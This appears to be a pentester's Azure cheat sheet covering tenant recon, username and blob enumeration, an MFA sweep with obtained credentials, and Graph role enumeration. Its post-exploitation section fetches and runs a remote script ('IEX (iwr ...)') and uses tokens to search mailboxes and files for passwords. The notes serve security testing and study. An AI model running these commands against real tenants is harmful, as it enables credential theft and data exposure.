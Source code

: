 ```yaml
---
title: Azure Notes 
weight: 40
menu:
  notes:
    name: Azure Notes
    identifier: notes-cloud-azure-info
    parent: notes-cloud-azure
    weight: 20
---
```



{{< note title="Recon and Enumeration">}}

Get basic information about the domain
```
https://login.microsoftonline.com/getuserrealm.srf?login=example.com&xml=1
```


AAD Internals
```
Get-AADIntLoginInformation -Domain <example.com>
Get-AADIntTenantID -Domain <example.com>
Invoke-AADIntReconAsOutsider -DomainName <example.com>
https://aadinternals.com/osint/
```

Azure Subdomain Enumeration
```
Github https://github.com/yuyudhn/AzSubEnum
python3 azsubenum.py -b domain -p permutations.txt -v
```

Username Enumeration
```
Github: https://github.com/0xZDH/Omnispray
python3 omnispray.py -m o365_enum_office -d example.com -uf ~/Documents/userList.txt
```

Checking Azure MFA (Assuming Credentials are obtained)
```
Github: https://github.com/dafthack/MFASweep
Invoke-MFASweep -Username <Username> -Password <password> -Recon -IncludeADFS
```

Blob Enumeration
```
Format
https://<storageAccount>.blob.core.windows.net/<containername>/file.txt

//List Directories in Blob
https://<storageAccount>.blob.core.windows.net/<containername>?restype=container&comp=list&delimiter=%2F

//Check for Versioning in blob
curl -H "x-ms-version: 2019-12-12" 'https://<storageAccount>.blob.core.windows.net/<containername>?restype=container&comp=list&include=versions' | xmllint --format - | less

//Download Potential Files (assuming versioning is enabled)
curl -H "x-ms-version: 2019-12-12" 'https://<storageAccount>.blob.core.windows.net/<containername>/file.zip?versionId=<VersionID>' --output file.zip
``` 


{{< /note >}}


{{< note title="Post Exploitation">}}

GraphRunner to enumerate Office Products 
```
IEX (iwr 'https://raw.githubusercontent.com/dafthack/GraphRunner/main/GraphRunner.ps1')
Invoke-SearchSharePointAndOneDrive -Tokens $tokens -SearchTerm 'password filetype:xlsx'
Invoke-SearchTeams -Tokens $tokens -SearchTerm password
Invoke-SearchMailbox -Tokens $tokens -SearchTerm "password" -MessageCount 50
```
{{< /note >}}


{{< note title="Az and Graph Powershell Modules">}}

Setup Az and Graph Powershell Modules 
```
Install-Module Az
Import-Module Az
Connect-AzAccount

Install-Module Microsoft.Graph
Import-Module Microsoft.Graph
Connect-MgGraph
```
Microsoft Graph Powershell Enumeration
```
#Get user Info
Get-MgUser -UserId <email> | fl
#Get AU Info
Get-MgDirectoryAdministrativeUnit | fl

#Get Roles associated with an AU
#Automation Script: https://github.com/BenTamam/PentestPlayground/blob/main/Azure/Scripts/CheckScopedRolePrivileges.ps1
$ScopedRoleMembers = Get-MgDirectoryAdministrativeUnitScopedRoleMember -AdministrativeUnitId <AU-ID>
Get-MgDirectoryRole -DirectoryRoleId <RoleID> | fl

#Find Users who are members of the Role
foreach ($member in $ScopedRoleMembers) {
    $userId = $member.RoleMemberInfo.Id
    
    if (-not $userId) {
        Write-Output "No user ID available for member with Role ID: $($member.RoleId)"
        continue
    }

    $userDetails = Get-MgUser -UserId $userId
    
    if ($userDetails) {
        Write-Output "User Details: Name - $($userDetails.DisplayName), Email - $($userDetails.Mail), Role ID - $($member.RoleId)"
    } else {
        Write-Output "Failed to retrieve details for user ID: $userId"
    }
}

#Checking Members of the AU
Get-MgDirectoryAdministrativeUnitMember -AdministrativeUnitId <AU-ID>
```


{{< /note >}}

